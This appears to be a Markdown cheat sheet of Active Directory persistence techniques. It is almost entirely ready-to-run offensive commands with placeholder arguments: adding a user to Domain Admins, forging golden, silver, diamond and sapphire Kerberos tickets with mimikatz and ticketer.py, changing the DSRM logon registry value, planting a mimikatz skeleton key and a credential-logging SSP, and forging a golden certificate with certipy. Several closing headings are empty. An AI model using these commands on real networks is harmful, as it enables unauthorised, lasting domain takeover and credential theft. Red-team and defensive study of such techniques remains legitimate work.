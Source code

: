# Persistence

## ADD DA
- `net group "domain admins" myuser /add /domain`

## Golden ticket
- `ticketer.py -aesKey <aeskey> -domain-sid <domain_sid> -domain <domain> <anyuser>`
- `mimikatz "kerberos::golden /user:<admin_user> /domain:<domain> /sid:<domain-sid>/aes256:<krbtgt_aes256> /ptt"`

## Silver Ticket
- `mimikatz "kerberos::golden /sid:<current_user_sid> /domain:<domain-sid> /target:<target_server> /service:<target_service> /aes256:<computer_aes256_key> /user:<any_user> /ptt"`
- `ticketer.py -nthash <machine_nt_hash> -domain-sid <domain_sid> -domain <domain> <anyuser>`

## Directory Service Restore Mode (DSRM)
- `PowerShell New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD`

## Skeleton Key
- `mimikatz "privilege::debug" "misc::skeleton" "exit" #password is mimikatz`

## Custom SSP
- `mimikatz "privilege::debug" "misc::memssp" "exit"`
  - C:\Windows\System32\kiwissp.log

## Golden certificate
- `certipy ca -backup -ca '<ca_name>' -username <user>@<domain> -hashes <hash>`
  - `certipy forge -ca-pfx <ca_private_key> -upn <user>@<domain> -subject 'CN=<user>,CN=Users,DC=<CORP>,DC=<LOCAL>`

## Diamond ticket
- `ticketer.py -request -domain <domain> -user <user> -password <password> -nthash <hash> -aesKey <aeskey> -domain-sid <domain_sid>  -user-id <user_id> -groups '512,513,518,519,520' <anyuser>`

## Saphire Ticket
- `ticketer.py -request -impersonate <anyuser> -domain <domain> -user <user> -password <password>  -nthash <hash> -aesKey <aeskey> -domain-sid <domain_sid>  'ignored'`
  
## DC shadow

## ACL manipulation

## ...
